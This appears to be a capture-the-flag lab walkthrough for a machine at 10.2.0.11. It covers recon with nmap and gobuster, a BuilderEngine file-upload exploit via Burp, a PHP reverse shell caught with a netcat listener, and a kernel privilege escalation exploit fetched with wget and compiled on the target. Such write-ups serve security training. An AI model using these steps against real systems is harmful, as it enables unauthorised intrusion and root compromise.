 * [Recon-Enumeration](#recon-enumeration)
* [Exploit](#exploit)
* [Privesc](#privesc)

![alt text](./img/muts00.PNG?raw=true)  

## Recon-Enumeration  
nmap -A -p- 10.2.0.11  
![alt text](./img/muts01.PNG?raw=true)  
  
![alt text](./img/muts02.PNG?raw=true)  
  
![alt text](./img/muts03.PNG?raw=true)  

enum4linux 10.2.0.11  
![alt text](./img/muts08.PNG?raw=true)  
  
gobuster dir -u http://10.2.0.11 -w ~/wordlists/big.txt -e -x php,html,txt,xml,sql,aspx -t 100  
![alt text](./img/muts04.PNG?raw=true)  
  
![alt text](./img/muts05.PNG?raw=true)  

gobuster dir -u http://10.2.0.11:8080 -w ~/wordlists/big.txt -e -x php,html,txt,xml,sql,aspx -t 100  
![alt text](./img/muts06.PNG?raw=true)  
  
![alt text](./img/muts07.PNG?raw=true)  

## Exploit

On the main page it says BuilderEngine, so let’s see if exists any exploit to it  
searchsploit builderengine  
![alt text](./img/muts11.PNG?raw=true)  

searchsploit -x php/webapps/40390.php  
![alt text](./img/muts12.PNG?raw=true)  

Ok, so we need to use a request, to make the things easier let’s use Burp  
Open BurpSuite  
In your browser accesss http://10.2.0.11/themes/dashboard/assets/plugins/jquery-file-upload/server/php/  
Look the request on Burp and send it to Repeater  
![alt text](./img/muts13.PNG?raw=true)  

Put the exploit code in the request and send it  
![alt text](./img/muts14.PNG?raw=true)  

Now access http://10.2.0.11/files, will appear a file with a strange name  
![alt text](./img/muts15.PNG?raw=true)  

Click on it and will appear an upload page  
![alt text](./img/muts16.PNG?raw=true)  

Here you can upload a php reverse shell, you can use the file in /usr/share/webshells/php/php-reverse-shell.php, just change the $ip and $port to yours.  
After select it click on SEND and return to http://10.2.0.11/files  
![alt text](./img/muts17.PNG?raw=true)  

Start an netcat listener  
nc -nvlp 1234  
Now access the uploaded page  
![alt text](./img/muts18.PNG?raw=true)  
HABEMUS SHELL \o/  

## Privesc

Run the commands above to get a better shell:  
- python -c 'import pty; pty.spawn("/bin/bash")'  
- export TERM=xterm  

cat /etc/passwd  
![alt text](./img/muts19.PNG?raw=true)  

cat /etc/issue  
cat /etc/*-release  
uname -a  
uname -r  
arch  
![alt text](./img/muts20.PNG?raw=true)  

find / -perm -u=s 2>/dev/null  
![alt text](./img/muts21.PNG?raw=true)  

During enumeration we found the user.txt flag on /var folder  
![alt text](./img/muts22.PNG?raw=true)  

Since we have ubuntu versions, let’s try to find an privilege escalation exploit  
searchsploit ubuntu 14 priv  
![alt text](./img/muts23.PNG?raw=true)  

Here we have a lot of exploit, however many are not usefull for this kernel version.  
After a fell tries the one that worked was…  
![alt text](./img/muts24.PNG?raw=true)  

So let’s read it  
searchsploit -x linux/local/36746.c   
![alt text](./img/muts25.PNG?raw=true)    
  
Those are the instructions to compile the code  

Copy it to your computer  
- searchsploit -m linux/local/36746.c  
And send the file to the target machine. I used the above command:  
- sudo python3 -m http.server 80  

On the target machine use this commands:  
- cd /tmp  
- wget http://10.2.0.4/36746.c  
- gcc -static 36746.c  
- ./a.out  
- id  

![alt text](./img/muts26.PNG?raw=true)  

PWNED!  

Now just grab the flag  
![alt text](./img/muts27.PNG?raw=true)  

